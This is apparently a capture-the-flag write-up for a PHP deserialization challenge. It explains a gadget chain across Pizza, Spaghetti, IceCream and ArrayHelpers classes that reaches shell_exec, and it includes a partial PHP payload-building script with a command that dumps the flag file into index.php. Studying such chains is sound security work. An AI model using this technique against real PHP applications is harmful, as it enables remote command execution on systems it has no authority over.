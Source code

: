 The idea is to exploit the **call_user_func** to execute **shell_exec** to retrieve the flag, but how can we get there?
We know that in order.php we unserialize ad object taken from the post request, that at the end of the script gets destroyed.
At this point you probably have already guessed it, we need to order a Pizza!

Now we know that by sending a post request requiring a Pizza object, the **__destroy()** method will be called, which will simply do **echo $this->size->what**.
The code assumes that the size variable is an object with a parameter of name **what**. We then remember that the **__get()** method will get called when referencing a non-existent parameter of the class.
The idea is then to set the *size* variable to an instance of Spaghetti, thus allowing the method **__get()** to be run. 
Following the same apphroach, if we set the *sauce* variable of the class Spaghetti to an instance of IceCream, the **__invoke()** method will be called, since the **__get()** method will try to call the instance of IceCream as a function.
Finally, the idea is to set *flavors* to an instance of ArrayHelpers, setting the callback to **shell_exec**, also providing to its constructor an array containing a string which will be our command to be executed.
Since we do not know the flag name, we could simply use this trick: 
```bash
cat /*flag* > ./index.php
```
If everything works well, upon opening the homepage of the web application, we should get the flag.
To quickly obtain the payload i created a php script:

```php
<?php
class ArrayHelpers extends ArrayIterator
{
	public $callback = "shell_exec";
}

class Pizza
{
	public $price;
	public $cheese;
	public $size;

}
	
class Spaghetti
{
    public $sauce;
    public $noodles;
    public $portion;
    
}

class IceCream
{
	public $flavors;
	public $topping;
}


$cmd = array(
	0 => "cat /*flag* > ./index.php"
	);

$pizza = new Pizza();
$spaghetti = new Spaghetti();
$icecream = new IceCream();
$icecream->flavors = new ArrayHelpers($cmd);
$spaghetti->sauce = $icecream;
```